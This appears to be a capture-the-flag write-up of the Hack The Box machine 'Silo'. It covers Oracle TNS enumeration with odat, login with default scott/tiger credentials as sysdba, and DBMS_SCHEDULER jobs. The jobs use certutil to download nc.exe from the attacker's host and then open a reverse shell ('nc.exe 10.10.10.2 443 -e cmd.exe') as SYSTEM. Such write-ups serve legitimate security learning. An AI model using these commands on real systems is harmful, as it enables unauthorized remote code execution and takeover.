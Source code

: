 # Silo

### Reconnaissance

[Nmap scan](./silo.nmap)

**RPC**

Access denied when trying to connect with a null session

**SMB**

No anonymous or guest access, system information from NetExec:

NetExec smb enum: `Windows Server 2012 R2 Standard 9600 x64 (name:SILO) (domain:SILO) (signing:False) (SMBv1:True)`

**Oracle TNS Listener**

A quick google for Oracle TNS listener shows this hacktricks post: https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

They suggest using odat: https://github.com/quentinhardy/odat

Enumerating the service with odat gives us two SIDs, `XE` and `XEDB`, and some default credentials `scott/tiger`

```bash
./odat all -s 10.10.10.82
./odat all -s 10.10.10.82 -d XE -U scott -P tiger
```

Further enumeration with the credentials doesn't give us any more information

This [secybr post](https://secybr.com/posts/oracle-pentesting-best-practices/) mentioned in hacktricks gives us lots more enumeration options and several methods for RCE 
with user credentials

First, we need to install sqlplus and set some environment variables:

```bash
# install sqlplus
sudo apt install oracle-instantclient-sqlplus

# find the directory from the sqlplus symlink for ORACLE_HOME env var
file $(which sqlplus)
/usr/bin/sqlplus: symbolic link to ../lib/oracle/19.6/client64/bin/sqlplus

# path or version may be different
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
```

We can connect to both SIDs with the default credentials with system database privileges

Connect to XE or XEXDB with system database privileges

```bash
sqlplus <user>/<password>@10.10.10.82/<SID> 'as sysdba';
```

**Exploitation**

The target doesn't have Java installed so the first method won't work, but we can use the DBMS_SCHEDULER to 
create jobs and schedule them to get RCE on the target. We will not get back any output from the command
execution so sanity checking is a good idea!

First host the nc.exe binary using python:

```bash
python -m http.server 80
```

Then create a job to download the nc.exe binary with certutils in sqlplus:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2002','EXECUTABLE','c:\Windows\system32\certutil.exe -urlcache -f http://10.10.10.2/nc.exe c:\nc.exe',0,TRUE);
```

Now schedule the job to run immediately:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![upload](./img/upload.png)

Start a netcat listener on the attacking machine:

```bash
nc -lnvp 443
```

Create a job to run the nc.exe binary to connect to our attacker machine:

```
SQL> exec DBMS_SCHEDULER.create_program('RDS2003','EXECUTABLE','c:\nc.exe 10.10.10.2 443 -e cmd.exe',0,TRUE);
```

Finally, schedule the job to run immediately and get a reverse shell on the target:

```
SQL> exec DBMS_SCHEDULER.create_job(job_name => 'RDS2003JOB',program_name => 'RDS2003',start_date => NULL,repeat_interval => NULL,end_date => NULL,enabled => TRUE,auto_drop => TRUE);
```

![shell](./img/shell.png)

### Privilege Escalation

Running `whoami` gives us an error as if it wasn't installed on the machine. If we navigate to system32 we 
can run it and discover we have SYSTEM privileges

![system](./img/system.png)

### Lessons Learned

- Always try to connect to Oracle TNS listeners with 'as sysdba'
- When scheduling tasks with DBMS_SCHEDULER use binaries we know will be installed on the target in 
predictable locations
- Sanity checking when using scheduled tasks is important as we don't get any output from the executed commands
